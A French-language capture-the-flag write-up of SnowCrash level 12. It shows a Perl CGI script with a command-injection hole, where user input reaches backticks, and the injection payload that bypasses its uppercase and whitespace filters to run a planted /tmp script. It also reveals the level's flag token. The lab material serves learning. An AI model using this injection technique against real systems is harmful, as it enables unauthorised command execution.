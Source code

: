 # LEVEL 12

### Reconnaissance

On tombe sur un fichier perl
``
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
#localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Meme chose que le level04, un script perl qui est en ecoute sur le port 4646.
Ce script attend 2 paramètres : x et y
le paramètre y ne nous sert a rien, seul x va nous servir.


Cette ligne nous permet une injection de commande :
```
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```
les backsticks interprette le code, la difficulté de ce level est de contourné les 2 regex avant:

```
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
```

Le premier converti les lettres en majuscule.
Le second supprime les espaces.

### Exploitation

```
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/PAYLOAD && chmod +x /tmp/PAYLOAD
```

On creer un fichier /tmp/PAYLOAD qu'on rend exécutable. Il ne nous reste plus qu'a faire notre injection:

```
192.168.56.105:4646/?x='$(/*/payload)'
OU
192.168.56.105:4646/?x='$(/*/PAYLOAD)'
```

le wilcard nous permet de contourné le filtre qui mettrait en majuscule /tmp
On a créer notre fichier en majuscule, le regex va nous le convertir tous seul.
$() nous permet d'executé la commande.

```
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```


